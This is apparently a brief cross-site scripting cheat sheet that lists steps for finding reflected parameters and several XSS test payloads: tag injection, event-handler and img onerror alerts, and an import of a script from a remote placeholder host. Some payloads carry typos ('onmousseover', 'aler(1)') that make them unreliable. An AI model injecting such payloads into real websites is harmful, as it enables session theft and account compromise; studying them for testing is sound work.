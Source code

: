 Cross Site Scripting
**$STEPS$**: 
- Check all URLs
- Change urls (https for https, or a parameter)
- if u change one parameter or url, look for it on dev tools > html
- 
**Examples:**
```javascript
"><u>test123

<u/onmousseover=alert(1)>test123

<img src=x onerror=alert(1)>

1.js
aler(1)

import('https://site.com/1.js')
```